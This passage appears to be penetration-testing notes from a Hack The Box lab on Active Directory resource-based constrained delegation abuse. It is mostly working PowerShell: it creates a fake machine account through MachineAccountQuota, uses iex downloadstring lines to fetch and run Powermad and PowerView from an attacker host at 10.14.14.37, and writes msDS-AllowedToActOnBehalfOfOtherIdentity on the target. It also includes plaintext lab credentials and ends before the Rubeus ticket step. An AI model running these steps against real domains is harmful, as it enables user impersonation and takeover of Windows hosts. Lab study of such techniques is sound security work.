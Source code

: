 Prerequisites:

1. An account with SPN set (we'll abuse `MachineAccountQuota` to create one) that will impersonate (actually delegate to) another user (`HTB\lee`) to access target computer service (`http/WEB.htb.local`) via PtT by abusing protocol transition mechanism (S4U2Self & S4U2Proxy).
2. An account (test-svc) that has a DACL (`Owns` / `GenericAll` / `GenericWrite` / `WriteDacl` / etc.) to add an ACE (`msDS-AllowedToActOnBehalfOfOtherIdentity`) on target computer (`HTB\WEB`) in order to make it trust the account from point 1 for delegation.

### From Inside (Windows)

**Tools:**

1. [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) to abuse MachineAccountQuota in order to create an account with SPN (a fake machine).
2. [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerSploit, dev branch) to manipulate domain objects and modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` property to make WEB machine trust the newly created fake machine for delegation.
3. [Rubeus](https://github.com/GhostPack/Rubeus).[exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) to abuse S4U protocol transition.

Set target computer name (the computer we want to own) and the owned account credentials (the account that has permissions to modify the target computer object):

```
PS > $TargetComputer = 'WEB.htb.local'
PS > $UserWithDaclUsername = 'htb.local\test-svc'
PS > $UserWithDaclPassword = ConvertTo-SecureString 'T3st-S3v!ce-F0r-Pr0d' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential($UserWithDaclUsername, $UserWithDaclPassword)
```

Check for MachineAccountQuota in the domain:

```
PS > $root = [ADSI]"LDAP://RootDSE"
PS > $root.rootDomainNamingContext
DC=htb,DC=local
PS > Get-DomainObject -Identity "DC=htb,DC=local" | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

Import Powermad.ps1 and create a new machine account with it:

```
root@kali:$ curl -L https://github.com/Kevin-Robertson/Powermad/raw/master/Powermad.ps1 > pm.ps1
PS > iex(new-object net.webclient).downloadstring("http://10.14.14.37/pm.ps1")
PS > New-MachineAccount -MachineAccount FAKEMACHINE -Password $(ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force) -Verbose -Credential $Cred
```

Import PowerView.ps1 and modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` property:

```
root@kali:$ curl -L https://github.com/PowerShellMafia/PowerSploit/raw/dev/Recon/PowerView.ps1 > pv.ps1
PS > iex(new-object net.webclient).downloadstring("http://10.14.14.37/pv.ps1")
PS > $ComputerSid = Get-DomainComputer FAKEMACHINE -Properties ObjectSid -Verbose -Credential $Cred | Select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PS > Get-DomainComputer $TargetComputer -Verbose -Credential $Cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $Cred
```
